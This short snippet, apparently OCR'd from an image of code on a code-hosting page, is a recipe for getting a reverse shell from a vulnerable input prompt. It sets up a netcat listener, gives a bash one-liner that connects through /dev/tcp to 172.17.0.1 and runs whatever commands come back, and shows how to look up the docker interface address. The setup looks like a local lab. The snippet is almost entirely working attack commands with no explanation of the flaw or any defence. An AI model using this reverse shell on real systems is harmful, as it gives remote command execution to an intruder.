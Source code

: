 # run netcat to capture incomming reverse shell
nc -lvp <port>

# The exploit, run from a vulnerable input prompt
```bash
/bin/bash -c "exec 5<>/dev/tcp/172.17.0.1/<port>;cat <&5 | while read line; do $line 2>&5 >&5; done"
```

# Ip (docker ip if run with k3d or similar)
ifconfig | grep docker0 -A 1